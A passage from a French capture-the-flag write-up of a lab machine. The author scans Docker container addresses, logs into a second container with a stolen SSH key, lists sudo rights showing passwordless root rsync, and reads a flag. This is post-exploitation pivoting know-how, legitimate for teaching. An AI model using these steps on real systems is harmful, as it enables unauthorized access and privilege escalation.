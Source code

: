 Notre IP locale étant `.1`, Docker ne cherche généralement pas bien loin pour les autres machines :

```console
p48@powergrid:/var/www/html$ ping 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.288 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.073 ms
^C
--- 172.17.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 48ms
rtt min/avg/max/mdev = 0.073/0.180/0.288/0.108 ms
p48@powergrid:/var/www/html$ ping 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
^C
--- 172.17.0.3 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 30ms

p48@powergrid:/var/www/html$ ping 172.17.0.4
PING 172.17.0.4 (172.17.0.4) 56(84) bytes of data.
^C
--- 172.17.0.4 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

Comme attendu, avec la clé SSH, je peux me connecter sur `.2` avec le compte `p48`. Ce dernier a une permission `sudo` et un flag :

```console
www-data@powergrid:/var/www/html$ ssh -i ssh.key  -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null p48@172.17.0.2
Could not create directory '/var/www/.ssh'.
Warning: Permanently added '172.17.0.2' (ECDSA) to the list of known hosts.
Linux ef117d7a978f 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 20 00:22:30 2020 from 172.17.0.1
p48@ef117d7a978f:~$ id
uid=1000(p48) gid=1000(p48) groups=1000(p48)
p48@ef117d7a978f:~$ sudo -l
Matching Defaults entries for p48 on ef117d7a978f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User p48 may run the following commands on ef117d7a978f:
    (root) NOPASSWD: /usr/bin/rsync
p48@ef117d7a978f:~$ ls -al
total 20
drwxr-xr-x 3 p48  p48  4096 May 19  2020 .
drwxr-xr-x 1 root root 4096 May 19  2020 ..
lrwxrwxrwx 1 p48  p48     9 May 19  2020 .bash_history -> /dev/null
drwx------ 2 p48  p48  4096 May 20  2020 .ssh
-rw------- 1 p48  p48   803 May 19  2020 .viminfo
-rw-r--r-- 1 p48  p48   112 May 19  2020 flag2.txt
p48@ef117d7a978f:~$ cat flag2.txt 
047ddcd1f33dfb7d80da3ce04e89df73

Well done for getting flag 2. It looks like this user is fairly unprivileged
```
